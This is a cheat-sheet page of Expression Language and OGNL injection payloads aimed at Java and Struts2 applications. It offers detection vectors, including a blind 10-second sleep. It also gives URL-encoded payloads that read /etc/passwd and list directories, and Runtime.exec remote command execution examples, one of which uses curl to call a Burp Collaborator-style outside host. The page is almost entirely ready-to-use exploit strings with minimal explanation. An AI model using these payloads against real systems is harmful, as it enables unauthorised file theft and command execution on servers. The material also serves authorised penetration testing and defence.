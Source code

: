 
### Detection

* Burp detection

```bash
gk6q${“zkz”.toString().replace(“k”, “x”)}doap2
#The value returned was "igk6qzxzdoap2", indicating of the execution of the expression.
```

* J2EE detection

```bash
#J2EEScan Detection vector (substitute the content of the response body with the content of the “INJPARAM” parameter concatenated with a sum of integer):
https://www.example.url/?vulnerableParameter=PRE-${%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23kzxs%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23kzxs.print(%23parameters.INJPARAM[0])%2c%23kzxs.print(new%20java.lang.Integer(829%2b9))%2c%23kzxs.close(),1%3f%23xx%3a%23request.toString}-POST&INJPARAM=HOOK_VAL
```

* Sleep 10 secs

```bash
#Blind detection vector (sleep during 10 seconds)
https://www.example.url/?vulnerableParameter=${%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23kzxs%3d%40java.lang.Thread%40sleep(10000)%2c1%3f%23xx%3a%23request.toString}
```

### Remote File Inclusion

```bash
https://www.example.url/?vulnerableParameter=${%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23wwww=new%20java.io.File(%23parameters.INJPARAM[0]),%23pppp=new%20java.io.FileInputStream(%23wwww),%23qqqq=new%20java.lang.Long(%23wwww.length()),%23tttt=new%20byte[%23qqqq.intValue()],%23llll=%23pppp.read(%23tttt),%23pppp.close(),%23kzxs%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23kzxs.print(new+java.lang.String(%23tttt))%2c%23kzxs.close(),1%3f%23xx%3a%23request.toString}&INJPARAM=%2fetc%2fpasswd
```

### Directory Listing

```bash
https://www.example.url/?vulnerableParameter=${%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23wwww=new%20java.io.File(%23parameters.INJPARAM[0]),%23pppp=%23wwww.listFiles(),%23qqqq=@java.util.Arrays@toString(%23pppp),%23kzxs%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23kzxs.print(%23qqqq)%2c%23kzxs.close(),1%3f%23xx%3a%23request.toString}&INJPARAM=..
```

### RCE

* Basic RCE **explanation**

```bash
#Check the method getRuntime is there
{"".getClass().forName("java.lang.Runtime").getMethods()[6].toString()}
[public static java.lang.Runtime java.lang.Runtime.getRuntime()]

#Execute command (you won't see the command output in the console)
{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://127.0.0.1:8000")}
[Process[pid=10892, exitValue=0]]

#Execute command bypassing "getClass"
#{""["class"].forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("curl <instance>.burpcollaborator.net")}
```
